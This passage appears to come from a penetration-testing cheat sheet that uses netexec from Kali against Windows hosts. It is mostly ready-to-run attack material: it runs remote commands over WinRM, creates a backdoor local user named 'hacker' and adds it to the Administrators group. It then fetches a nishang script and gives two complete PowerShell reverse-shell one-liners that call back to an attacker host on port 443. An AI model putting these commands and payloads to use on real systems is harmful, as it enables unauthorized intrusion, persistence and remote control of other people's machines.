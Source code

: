 ```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'dir C:\Users\'
```

#### 15 SwisArmy netexec Command Execution + Using Local Auth
Add an admin user:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -x 'net user /add hacker Pass123'
```

Verify:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -x 'net user'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -x 'net localgroup administrators hacker /add'
```

Verify:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -x 'net localgroup administrators'
```

```bash - kali
netexec smb $TARGET -u $USER -p $PASSWORD --local-auth
```

#### 16 SwisArmy Get PowerShell Reverse Shell
```bash - kali
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

There are 2 options below, update the IP and port.
```bash - kali
mousepad Shelly.ps1
```

OPTION1:
```bash - kali
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

OPTION2:
```bash - kali
$sm=(New-Object Net.Sockets.TCPClient('$KALI',443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

[[Python#Server]]

[[1._rlwrap]]
